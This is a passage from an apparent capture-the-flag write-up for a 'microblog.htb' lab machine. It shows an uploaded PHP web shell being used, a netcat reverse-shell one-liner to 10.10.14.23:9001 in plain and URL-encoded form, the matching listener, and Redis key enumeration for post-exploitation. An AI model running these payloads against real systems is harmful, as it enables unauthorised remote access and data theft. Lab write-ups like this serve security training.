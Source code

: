 Then, can call the shell and execute a simple command :

[http://john.microblog.htb/uploads/shell.php?cmd=whoami](http://john.microblog.htb/uploads/shell.php?cmd=whoami)

response :

```text
www-data
```

Since we can execute come commands, we now are able to get a reverse shell. The command to be executed :

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 9001>/tmp/f
```

The URL encoded payload :

```text
http://john.microblog.htb/uploads/shell.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.14.23+9001%3E/tmp/f
```

With the listener:

```shell
rlwrap -cAr nc -lvnp 9001
```

And we get a shell !!!

## Post-Exploitation

### Host Reconnaissance

The user “cooper” already have a blog, he must have an account saved in the redis database. So let’s explore it !

connect to the redis database :

```shell
which redis-cli
/usr/bin/redis-cli

redis-cli -s /var/run/redis/redis.sock
```

Start by enumerate the keys :

```text
keys *

cooper.dooper
john:sites
cooper.dooper:sites
PHPREDIS_SESSION:fhg5tifdq3b81uspe3hhj3bi8e
john
```
